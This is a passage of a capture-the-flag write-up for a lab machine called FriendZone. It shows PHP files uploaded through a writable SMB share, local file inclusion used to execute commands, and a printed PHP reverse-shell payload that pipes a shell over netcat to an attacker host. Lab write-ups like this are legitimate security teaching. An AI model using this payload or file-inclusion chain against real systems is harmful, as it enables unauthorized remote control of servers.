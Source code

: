 ###### `LFI through SMB & Shell`

Luckily, after looking at some hits, (~~Direct hints~~) , I was able to perform LFI from the SMB. 
First I upload the cmd.php on Development Share since we have a `WRITE` access on it.
```
# smbclient //friendzone.htb/development
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> put cmd.php
putting file cmd.php as \cmd.php (0.3 kb/s) (average 0.3 kb/s)
smb: \> put callmeback.php
putting file callmeback.php as \callmeback.php (0.9 kb/s) (average 0.6 kb/s)
smb: \> dir
  .                                   D        0  Sun Oct  6 02:33:26 2024
  ..                                  D        0  Tue Sep 13 10:56:24 2022
  cmd.php                             A       35  Sun Oct  6 02:58:28 2024
  callmeback.php                      A      104  Sun Oct  6 02:58:35 2024

                3545824 blocks of size 1024. 1651332 blocks available
```

The following URL got us the Command Exection
`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../etc/Development/cmd&cmd=id`
![](Friendzone_web11.png)

Now we can start the Netcat Listener on port 4444 and grab the shell. Here is my `callmeback.php` file look like
```
# cat callmeback.php                              
GIF8;
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```

`https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../etc/Development/callmeback`
![](Friendzone_web13.png)
